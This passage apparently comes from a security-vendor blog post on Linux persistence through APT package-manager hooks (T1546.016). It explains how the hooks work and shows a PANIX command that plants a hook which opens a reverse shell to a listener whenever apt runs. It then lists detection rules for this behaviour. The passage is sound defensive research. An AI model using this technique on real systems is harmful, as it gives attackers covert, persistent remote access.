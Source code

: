 ### T1546.016 - installer packages (APT)

[APT](https://linux.die.net/man/8/apt) is the default package manager for Debian-based Linux distributions like Debian, Ubuntu, and their derivatives. It simplifies the process of managing software packages and dependencies. APT utilizes several configuration mechanisms to customize its behavior and enhance package management efficiency. 

[APT hooks](https://manpages.debian.org/testing/apt/apt.conf.5.en.html) allow users to execute scripts or commands at specific points during package installation, removal, or upgrade operations. These hooks are stored in `/etc/apt/apt.conf.d/` and can be leveraged to execute actions pre- and post-installation. The structure of APT configuration files follows a numeric ordering convention to control the application of configuration snippets that customize various aspects of APT's behavior. A regular APT hook looks like this:

```
DPkg::Post-Invoke {"if [ -d /var/lib/update-notifier ]; then touch /var/lib/update-notifier/dpkg-run-stamp; fi; /usr/lib/update-notifier/update-motd-updates-available 2>/dev/null || true";};                                                                            APT::Update::Post-Invoke-Success {"/usr/lib/update-notifier/update-motd-updates-available 2>/dev/null || true";}; 
```

These configuration files can be exploited by attackers to execute malicious binaries or code whenever an APT operation is executed. This vulnerability extends to automated processes like auto-updates, enabling persistent execution on systems with automatic update features enabled.

#### Persistence through T1546.016 - installer packages (APT)

To test this method, a Debian-based system that leverages APT or the manual installation of APT is required. Make sure that if you perform this step manually, that you do not break the APT package manager, as [a carefully crafted payload](https://github.com/Aegrah/PANIX/blob/main/panix.sh#L2021C4-L2021C138) that detaches and runs in the background is necessary to not interrupt the execution chain. You can setup APT persistence by running:

```
> sudo ./panix.sh --package-manager --ip 192.168.1.1 --port 2012 --apt
> [+] APT persistence established
```

To trigger the payload, run an APT command, such as `sudo apt update`. This will spawn a reverse shell. Let’s take a look at the events in Discover:

![Events generated as a result of package manager (APT) persistence establishment](/assets/images/sequel-on-persistence-mechanisms/image10.png "Events generated as a result of package manager (APT) persistence establishment")

In the figure above, we see PANIX being executed, creating the `01python-upgrades` file, and successfully establishing the APT hook. After running `sudo apt update`, APT reads the configuration file and executes the payload, initiating the `sh` → `nohup` → `setsid` → `bash` reverse shell chain. Our coverage is multi-layered, and detects the following events:

| Category | Coverage                                          |
|----------|---------------------------------------------------|
| File     | [APT Package Manager Configuration File Creation](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_apt_package_manager_file_creation.toml)   |
|          | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/main/rules/integrations/fim/persistence_suspicious_file_modifications.toml)       |
| Process  | [Suspicious APT Package Manager Execution](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_apt_package_manager_execution.toml)          |
|          | [APT Package Manager Command Execution](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/linux/persistence_apt_package_manager_command_execution.toml)             |
| Network  | [Suspicious APT Package Manager Network Connection](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_apt_package_manager_netcon.toml) |
|          | [APT Package Manager Egress Network Connection](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/linux/persistence_apt_package_manager_egress_network_connection.toml)     |
